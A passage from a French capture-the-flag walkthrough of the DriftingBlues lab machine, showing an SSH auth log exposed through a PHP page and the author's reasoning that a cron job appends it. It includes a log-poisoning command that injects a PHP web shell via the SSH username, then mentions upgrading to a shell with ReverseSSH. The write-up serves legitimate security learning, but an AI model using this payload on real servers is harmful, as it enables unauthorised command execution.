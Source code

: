 que l'on décode une fois de plus en */adminsfixit.php*.  

Le blues des logs
-----------------

Cette URL a un contenu similaire à ceci :  

```plain
#######################################################################
ssh auth log
============
i hope some wacky and uncharacteristic thing would not happen
this job is fucking poisonous and im boutta planck length away from quitting this hoe
-abuzer komurcu
#######################################################################

Jan 20 01:46:44 driftingblues sshd[703]: Did not receive identification string from 192.168.56.1 port 59838
Jan 20 01:46:50 driftingblues sshd[704]: Protocol major versions differ for 192.168.56.1 port 59840: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2 vs. SSH-1.5-Nmap-SSH1-Hostkey
Jan 20 01:46:50 driftingblues sshd[705]: Protocol major versions differ for 192.168.56.1 port 59842: SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2 vs. SSH-1.5-NmapNSE_1.0
Jan 20 01:46:50 driftingblues sshd[706]: Unable to negotiate with 192.168.56.1 port 59844: no matching host key type found. Their offer: ssh-dss [preauth]
Jan 20 01:46:50 driftingblues sshd[708]: Connection closed by 192.168.56.1 port 59848 [preauth]
Jan 20 01:46:50 driftingblues sshd[710]: Connection closed by 192.168.56.1 port 59850 [preauth]
Jan 20 01:46:50 driftingblues sshd[712]: Unable to negotiate with 192.168.56.1 port 59852: no matching host key type found. Their offer: ecdsa-sha2-nistp384 [preauth]
Jan 20 01:46:50 driftingblues sshd[714]: Unable to negotiate with 192.168.56.1 port 59854: no matching host key type found. Their offer: ecdsa-sha2-nistp521 [preauth]
Jan 20 01:46:50 driftingblues sshd[716]: Connection closed by 192.168.56.1 port 59856 [preauth]
Jan 20 01:47:01 driftingblues CRON[718]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 20 01:47:01 driftingblues CRON[718]: pam_unix(cron:session): session closed for user root
```

Ce qui est intéressant c'est que la ligne Nmap est très certainement de notre fait. Deux possibilités alors : soit le script PHP fait un *readfile()* sur le fichier de log soit une tache CRON ajoute le contenu du log à la fin du fichier PHP.  

La seconde option semble plus valide car si j'essaye un login SSH avec un compte invalide il se passe un moment avant que n'apparaisse la ligne suivante :  

```plain
Jan 20 01:55:19 driftingblues sshd[762]: Invalid user zozo from 192.168.56.1 port 59860
```

Il n'y a plus qu'à confirmer cette hypothèse avec l'injection de PHP dans les logs :  

```bash
ssh -l '<?php system($_GET[chr(99)]); ?>' 192.168.56.8
```

Et bada bing bada boom on obtient notre exécution de commande qu'on converti immédiatement en un beau shell PTY à l'aide de [ReverseSSH](https://github.com/Fahrj/reverse-ssh).  

Robery
------
